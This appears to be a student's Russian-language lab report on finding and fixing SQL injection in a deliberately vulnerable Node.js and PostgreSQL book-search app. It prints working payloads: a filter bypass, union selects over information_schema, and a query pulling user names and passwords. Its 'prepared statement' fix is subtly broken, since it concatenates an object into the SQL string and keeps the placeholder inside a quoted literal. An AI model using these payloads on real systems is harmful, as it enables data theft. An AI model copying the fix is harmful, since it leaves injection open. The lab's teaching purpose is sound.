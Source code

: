 # Лабораторная работа №2

Цель работы: Поиск и устранение SQL Injection.

## Задание 1

В папке lab2 находится nodejs уязвимое приложение. Необходимо развернуть его, найти SQL инъекцию и исправить. Модифицированное приложение загрузить в свой репозиторий GitHub.

Для выполнения лабораторной потребуется проделать следующие шаги:

1. Установить PostgreSQL сервер любой версии.
 
В качестве БД будем использовать docker-образ PostgreSQL. Запуск командой:

```bash
docker run --name postgres-lr -e POSTGRES_PASSWORD=passwddd -e POSTGRES_USER=postgres -e POSTGRES_DB=lib -d -p 5432:5432 postgres
```

2. Создать БД lib.

БД создается при запуске контейнера с помощью переменной окружения POSTGRES_DB=lib. 
 
3. Применить к ней скрипты из папки db (либо создать объекты и вставить данные в таблицы руками). Скрипты выполнять в порядке указанном в имени файла. Восстановить данные из файла data.sql.

Для входа в БД используется команда запуска шелла в контейнере, а затем, уже в контейнере, выполняется команда доступа к шеллу БД.

```bash
docker exec -it postgres-lr /bin/bash
psql -U postgres -d lib
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.1.png" />
</p>

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.2.png" />
</p>

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.3.png" />
</p>

4. Установить nodejs версии 14.

5. Перейти в папку lab2 и выполнить в ней команду:

```bash
npm install
```
<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/5.png" />
</p>

6. Запустить сайт через Visual Studio Code или через команду:

```bash
npm start
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/6.png" />
</p>

7. Войти на сайт и увидеть список книг и авторов.
 
<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/7.png" />
</p>
    
8. Обнаружить sql инъекцию.

Используем в качестве пейлоада одинарную кавычку и получаем ошибку и весь SQL запрос.

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/8.png" />
</p>

9. Написать отчёт с описанием найденной уязвимости и примерами её эксплуатации. В отчете приветси информацию об: обходе установленного фильтра, получении данных из другой таблицы, похищении пароля пользователя.

Получим текущую таблицу в обход SQL-запроса приложения. Используем пейлоад:

```sql
%' or 1 = 1 --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.1.png" />
</p>

Получим схему БД для определения таблиц с помощью пейлоада:

```sql
%' union select null, table_schema, table_name from information_schema.tables --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.2.png" />
</p>

Из вывода можно найти информацию от том, что есть таблица public.users. С помощью следующего запроса определим какие столбцы есть в БД и их тип:


```sql
%' union select null, column_name,data_type  from information_schema.columns  where table_name = 'users'; --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.3.png" />
</p>

Посмотрим записи таблицы public.users с помощью запроса:

```sql
%' union select null, name, pass  from public.users; --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.4.png" />
</p>
 
10. Исправить уязвимость. В отчёте привести пример того, что уязвимости больше не эксплуатируются.
 
Для исправления уязвимости используем prepared statements в запросе поиска по книге.

```javascript
if(bookname){
        sql+={
            text: `\rwhere b.name like '%$1%'`,
            values: [bookname]
        };
    }
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/10.png" />
</p>


P.S.
Помимо изученной SQLi обнаружена еще однин риск: хранение аутентификационных данных в коде программы.
Есть много способов получения аутентифкационных данных, одним из которых является PAM.

Также присутствует уязвимость, связанная с раскрытием информации о работе приложения путем вывода сообщения об ошибке пользователю. Решение - удалении методов вывода информации пользователю.

Не рекоменлуется использовать md5 для хэширования паролей. Решение - использование специальных хэшей: bcrypt.
